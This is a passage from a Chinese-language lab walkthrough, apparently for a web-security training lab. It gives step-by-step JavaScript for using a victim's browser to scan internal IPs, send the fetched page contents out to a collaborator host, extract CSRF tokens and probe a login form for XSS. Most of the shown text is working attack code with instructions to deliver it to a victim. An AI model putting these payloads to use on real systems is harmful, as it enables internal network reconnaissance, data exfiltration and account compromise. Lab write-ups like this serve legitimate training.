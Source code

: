 for(i=1;i&lt;=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r =&gt; r.text().then(text =&gt; {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&amp;code='+encodeURIComponent(text)+'&amp;'+Date.now();
	}))
	.catch(e =&gt; {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x =&gt; {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
&lt;/script&gt;</code></pre>
在漏洞利用服务器中输入以下代码。单击存储，然后单击“将漏洞利用发送给受害者”。

 检查日志或Collaborator交互组件，并查看发送给它的代码参数

<pre>`192.168.0.175:8080`</pre>
<hr/>
part2:
重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为从协作者交互中检索到的IP地址和端口号。不要忘记添加Collaborator有效负载或再次利用服务器URL。更新并提供漏洞利用。
<pre><code>&lt;script&gt;
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&amp;username='+encodeURIComponent(vector)+'&amp;password=test&amp;csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r =&gt; r.text().then(text =&gt; {
		xss(url, text, '"&gt;&lt;img src='+collaboratorURL+'?foundXSS=1&gt;');
	}))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
&lt;/script&gt;</code></pre>
 现在我们将探测用户名字段中的XSS漏洞。

 检索URL中具有foundXSS=1的Collaborator交互；或者在日志中看到foundXSS=1

<hr/>
part3:
重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为与步骤2中相同的IP地址和端口号，再次添加Collaborator有效负载或漏洞利用服务器。更新并提供漏洞利用
<pre><code>&lt;script&gt;
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&amp;username='+encodeURIComponent(vector)+'&amp;password=test&amp;csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}
